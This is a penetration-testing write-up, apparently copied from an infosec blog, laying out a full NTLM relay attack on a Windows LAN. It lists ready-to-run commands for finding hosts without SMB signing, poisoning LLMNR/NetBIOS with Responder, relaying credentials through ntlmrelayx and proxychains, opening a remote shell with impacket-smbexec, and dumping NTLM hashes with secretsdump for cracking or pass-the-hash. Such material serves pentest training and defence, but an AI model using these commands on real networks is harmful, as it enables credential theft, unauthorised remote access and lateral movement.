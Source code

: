 [medium.com]https://infosecwriteups.com/abusing-ntlm-relay-and-pass-the-hash-for-admin-d24d0f12bea0

# Abusing NTLM Relay and Pass the Hash for Admin

## Attack Privilege Requirements
- [ ]  Layer 2 access to the Local Area Network
- [ ]  Impacket Suite installed on Linux 
- [ ]  SMB Signing disabled on victim endpoint
- [ ]  LLMNR Broadcasting must be running on network
- [ ]  Netbios must also be running on network

### Identify SMB Signing with Crackmapexec

First you need list of machines with SMB Signing disabled

```bash - kali
crackmapexec smb — gen-relay-list smb_targets.txt 192.168.1.0/24
```

![[1 FDbfecz85M55kPRjBVQ3UQ.png]]

### NTLMRelayx

Now that we have a list of targets with SMB signing disabled, we can use captured credentials and target the list of IPs. 

```bash - kali
ntlmrelayx.py -socks -smb2support -tf smb_targets.txt
```

Socks flag opens up SOCKS Server on port 1080 that we will use to relay captured credentials.

![[1 eibz_t2FrsIOfkPbh0t-fw.png]]

#### KEEP NTLMRELAYX CONSOLE RUNNING

###  Proxychains

To send requests through the SOCKS proxy created, we use proxychains. Edit /etc/proxychains4.conf with `sudo nano /etc/proxychains4.conf` and change the last line to be `socks4 127.0.0.1 1080` to point at the newly created SOCKS server.

![[1 BgpX5NQJTjUwNc5QVvfGdQ.png]]

### Responder

Now that we have NTLMrelayx waiting for users to authenticate with us, we are going to use Responder to relay credentials to our machine.
We need to change the config file to disable SMB and HTTP in either `/etc/responder/Responder.conf` or `/usr/share/responder/Responder.conf`

![[1 aVr4t86h8zqW0QC4DXzrYw.png]]

This is because NTLMRelayx is using SMB and HTTP

Start up Responder in a new console with 

```bash - kali
sudo responder -I eth0
```

![[1 x9G3fjeZFzEKkQN6RD8cdA.png]]

Now we wait for Users or machines$ to authenticate with us

### SOCKS Connection

In the ntlmrelayx console, you should start to see sessions being initiated in the ntlmrelayx output

![[1 xtbHuc3oFC-FZX1gtbi0Wg.png]]

If not, type socks and hit enter in the ntlmrelayx console

Depending on the type of session is what type of access we have and what we can do.
If we want a shell use

```bash - kali
proxychains4 -q impacket-smbexec testdomain/testadmin:testpassword@192.168.1.161
```

##### Also, since the credentials are relayed through the SOCKS server, the password you put in does not matter.

As long as you use an account you have a socks session with, you can run commands on the machine as that user.

![[1 XIGVtN2WxlSnrRnNRMYKGw.png]]

We can also dump NTLM Hashes/Secrets with impacket-secretsdump

```bash - kali
proxychains4 -q impacket-secretsdump testdomain/Testadmin:testpassword@192.168.1.161
```

![[1 DNzItkDvk7PO57ToeQr_yg.png]]

Now that we have hashes, we can either crack them or attempt to pass them with tools such as Wmiexec, Evil-WinRm, XfreeRDP, etc.
If you're lucky, the SysAdmin left some program running on a machine that stores the plaintext creds in memory for a high privileged account. In all my engagements there has never not been plaintext credentials in memory.